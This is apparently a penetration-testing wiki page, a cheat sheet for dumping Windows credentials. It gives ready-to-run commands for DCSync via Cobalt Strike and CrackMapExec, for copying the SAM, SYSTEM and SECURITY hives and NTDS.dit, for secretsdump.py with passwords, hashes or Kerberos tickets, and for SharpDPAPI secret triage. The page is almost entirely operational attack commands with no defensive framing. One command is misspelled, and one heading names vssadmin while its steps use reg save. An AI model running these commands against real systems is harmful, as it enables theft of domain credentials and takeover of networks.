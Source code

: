 # DCSync

## Cobalt Strike

Cobalt Strike offers the “dcsync” command which is a wrapper for mimikatz.

If you have domain admin trust established with the domain controller, this will replicate all user's NTLM hashes. The command  `dcsync` is a shortcut for `mimikatz @lsadump::dcsync /domain:<domain.fqdn /all /csv`

```
dcsyn <domain.fqdn>
```

## CrackMapExec

Supports dumping NTDS via VSS or DRSUAPI. Specifying the method is optional.

```
crackmapexec smb <target> -u admin -p Password123 -d domain --ntds <drsuapi|vss>
```

## Manual DCSync using vssadmin

```
reg save hklm\sam SAM
```
```
reg save hklm\system SYSTEM
```
```
reg save hklm\security SECURITY
```

## Manual NTDS.dit Extraction using ntdsutil

```
ntdsutil "ac in ntds" i "cr fu c:\temp" q q
```

After doing one of the two manual methods, convert to a readable format with impacket on your local system.

```
impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL
```

# Local SAM and LSA

## Cobalt Strike

Use the built-in `hashdump` command to dump local SAM hashes.

## Impacket

Use secretsdump.py to extract credentials remotely. You can do this using a password, NTLM Hash, or with a Kerberos ticket. Also supports extracting credentials from local files.

Extract with NTLM hash:
```
secretsdump.py -hashes :6d9dc9bd065d9f9a628b0f1a0c54c976 domain\username@target
```

Extract with password: 
```
secretsdump.py domain\username:password@target
```

Extract with Kerberos Ticket: 
```
secretsdump.py domain\username@target -k -no-pass
```

> To extract with Kerberos ticket first request a TGT with asktgt.py then apply the TGS ticket with export KRB5CCNAME=<TGS_ccache_file>
{.is-info}


## CrackMapExec

Extract hashes from SAM using plaintext password(-p flag):

```
crackmapexec smb <target> -u admin -p Password123 -d domain --sam
```

Extract hashes from LSA using NTLM hash (-H flag):

```
crackmapexec smb <target> -u admin -H <NTLM_HASH> -d domain --lsa
```

## SeatBelt

Extract hashes from Security Auth Packages. By default this is usually just NTLMv2.

```
Seatbelt.exe SecPackageCreds
```

## Manual Method

From the compromised machines, navigate to C:\Windows\System32\Config. This is where the SAM, SYSTEM, and Security hives are located. You cant create a copy using copy because there’s a write block on the files. Save to another location using reg save:

```
reg save hklm\sam SAM
```
```
reg save hklm\system SYSTEM
```
```
reg save hklm\security SECURITY
```

Copy over the files, SAM, SYSTEM, and SECURITY, which should now be in the current working directory to your local system and use impacket to convert them into a readable format with the command:`impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL`

# DPAPI

## User/Machine Triaging

List all user credentials, vault, and RDG DPAPI blobs using a password. Can also be run without a password if the beacon is running under the user's context.

`SharpDPAPI.exe triage /password:X`

List all system credentials and vault DPAPI blobs. You need admin rights to execute this. This requires the system master keys that can only be retrieved by the SYSTEM user and cannot be performed remotely.

`SharpDPAPI.exe machinetriage`

## Domain Backup Key

List user credentials, vaults, and RDG blobs on a remote system using a domain backup key.

`SharpDPAPI.exe triage /pvk:[key_file | b64(key)] /server:X.domain.com`
